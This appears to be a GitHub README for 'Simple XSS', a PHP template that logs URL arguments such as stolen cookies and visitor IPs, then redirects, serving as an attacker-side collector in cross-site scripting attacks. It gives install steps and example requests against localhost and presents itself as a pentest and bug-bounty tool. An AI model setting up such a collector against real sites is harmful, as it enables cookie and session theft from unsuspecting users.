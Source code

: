 # Simple XSS [![License](https://img.shields.io/badge/license-GPLv3-red.svg)](https://github.com/bambish/ScanQLi/blob/master/LICENSE.md) [![Twitter](https://img.shields.io/badge/twitter-@bambishee-blue.svg)](https://twitter.com/bambishee)

Simple index.php template to perform XSS attack.

### Features
* Record each URL args
* Record client IP
* Instant redirection (static or dynamic)

### Prerequisites
* Web server (apache2, nginx, ...)
* PHP

### Installing
**1.** Get the sources
```bash
git clone https://github.com/bambish/SimpleXSS
```

**2.** Move index.php in the web server root dir.
```bash
mv SimpleXSS/index.php /var/www/html
```
*Adapt the path if you don't use apache2*

### Usage
* Basic usage: **cookies**=12345&**arg**=67890
```http
http://127.0.0.1/index.php?cookies=12345&arg=67890
```
*You can use every `arbitrary args name`*

* Dynamic redirection: **redirect**=http://arbitrarywebsite.com/
```http
http://127.0.0.1/index.php?cookies=12345&arbitraryarg=67890&redirect=http://github.com/
```
*You can `change or disable` the `default redirection` by editing or comment `$staticredirection` var in `index.php`*
*You can force the static redirection if you set `$allowgetredirection` to false in index.php*

* Write in specific dump file: **dumpfile**=arbitraryfile.txt
```http
http://127.0.0.1/index.php?cookies=12345&arbitraryarg=67890&dumpfile=arbitraryfile.txt
```
*Be shure your `web server` have the right `access to create and edit` files at the root dir*
*The default dump file is `dumpfile.txt`*

### Warning
This XSS template was created to perform pentest or others legal stuffs (like bug bounty).
Using this XSS template against web site **without authorization** is **forbidden**. 

I'm not responsible of your usage of this XSS template.
**At your own risk**.